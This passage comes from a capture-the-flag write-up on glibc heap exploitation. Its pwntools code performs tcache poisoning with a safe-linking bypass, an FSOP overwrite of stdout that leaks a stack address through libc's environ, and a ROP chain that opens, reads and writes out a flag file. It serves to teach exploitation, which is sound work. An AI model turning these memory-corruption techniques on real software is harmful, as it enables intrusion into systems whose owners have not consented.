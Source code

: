 ```py
free(8) # free(a) => tcache

# unsortedbin => oob on a => tcache poisoning
add(1, 0x130, b"T"*0x108 + pwn.p64(0x111) + pwn.p64(((stdout) ^ ((heap + 0x2b90) >> 12))))
add(2, 0x100, b"TT")

# tcache => stdout
```

Then, at the next `0x100` request `stdout` will be returned! Something important to notice if you're a beginner in heap exploitation is how the safe-linking is handled, you have to xor the target location with `((chunk_location) >> 12))`. Sometimes the result is not properly aligned leading to a crash, to avoid this you can add or sub 0x8 to your target location.

## FSOP on stdout

To leak the address of the stack we can use a FSOP on stdout. To understand how a such attack does work I advice you to read my [this write-up](https://ret2school.github.io/post/catastrophe/). The goal is to read the stack address stored at `libc.sym.environ` within the libc. Which gives:

```py
# tcache => stdout
add(3, 0x100, pwn.flat(0xfbad1800, # _flags
                        libc.sym.environ, # _IO_read_ptr
                        libc.sym.environ, # _IO_read_end
                        libc.sym.environ, # _IO_read_base
                        libc.sym.environ, # _IO_write_base
                        libc.sym.environ + 0x8, # _IO_write_ptr
                        libc.sym.environ + 0x8, # _IO_write_end
                        libc.sym.environ + 0x8, # _IO_buf_base
                        libc.sym.environ + 8 # _IO_buf_end
                        )
    )

stack = pwn.u64(io.recv(8)[:-1].ljust(8, b"\x00")) - 0x160 # stackframe of fgets
pwn.log.info(f"stack: {hex(stack)}")
```

# PROFIT

Now we leaked everything we just need to reuse the arbitrary write provided thanks to the house of botcake, given we already have overlapping chunks, to get another arbitrary write we just need to put the large chunk in a large tcache and the overlapped chunk in the `0x100` tcache, then we just have to corrupt `victim->fp` to the saved rip of the `fgets` stackframe :). It gives:

```py
rop = pwn.ROP(libc, base=stack)

# ROPchain
rop(rax=pwn.constants.SYS_open, rdi=stack + 0xde + 2 - 0x18, rsi=pwn.constants.O_RDONLY) # open
rop.call(rop.find_gadget(["syscall", "ret"]))
rop(rax=pwn.constants.SYS_read, rdi=3, rsi=(stack & ~0xfff), rdx=0x300) # file descriptor bf ...
rop.call(rop.find_gadget(["syscall", "ret"]))

rop(rax=pwn.constants.SYS_write, rdi=1, rsi=(stack & ~0xfff), rdx=0x50) # write
rop.call(rop.find_gadget(["syscall", "ret"]))
rop.raw("./flag.txt\x00")

# victim => tcache
free(8) 

# prev => tcache 0x140
free(7) 

```